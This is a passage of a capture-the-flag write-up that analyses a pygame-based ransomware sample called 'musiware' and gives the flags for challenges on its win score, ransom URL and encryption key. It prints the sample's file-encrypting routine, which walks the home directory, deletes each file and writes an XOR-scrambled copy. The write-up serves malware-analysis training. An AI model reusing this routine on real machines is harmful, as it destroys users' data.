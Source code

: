             text = font.render(' Uh Oh!! ', True, RED)
            screen.blit(text, [210, 10])
            font = pygame.font.Font(resource_path('assets/sans.ttf'), 70)
            text = font.render('You Failed!', True, RED)
            screen.blit(text, [125, 250])
    

It’s looking for a score of exactly `MAX` to win.

Flag:`10000000000000000000000000000000000000000000000000000000000000000`

### #5: URL

_If we even had a chance of beating this malware. Where is the URL it would of
given us?_

In the `end_setup` function, it prints the URL:

    
    
    font = pygame.font.Font(resource_path('assets/sans.ttf'), 30)
    text = font.render('Get the Decryption Application at:', True, RED)
    screen.blit(text, [50, 250])
    font = pygame.font.Font(resource_path('assets/sans.ttf'), 20)
    text = font.render('http://musiware.threatsims.com/5963decodenow5345/',
    

**Flag:`http://musiware.threatsims.com/5963decodenow5345/`**

### #6: Key

_It seems that the maker of this malware had somewhat of a sense of humor.
What is used to create entropy for the encryption?_

The first function called was `fun_enforcer()`, which is defined as:

    
    
    def fun_enforcer():
        img = open(resource_path('assets/images/miku.png'), 'rb').read() * 50
        home = os.path.expanduser('~')
        for root, dirs, files in os.walk(home, topdown=False):
            for name in files:
                if not name == 'musiware.exe':
                    if 'assets' in root:
                        continue
                    fileN = os.path.join(root, name)
                    try:
                        fileD = open(fileN, 'rb').read()
                        os.remove(fileN)
                        result = bytes((a ^ b for a, b in zip(fileD, img)))
                        f = open(fileN + '.miku', 'wb')
                        f.write(result)
                        f.close()
                    except:
                        continue
    
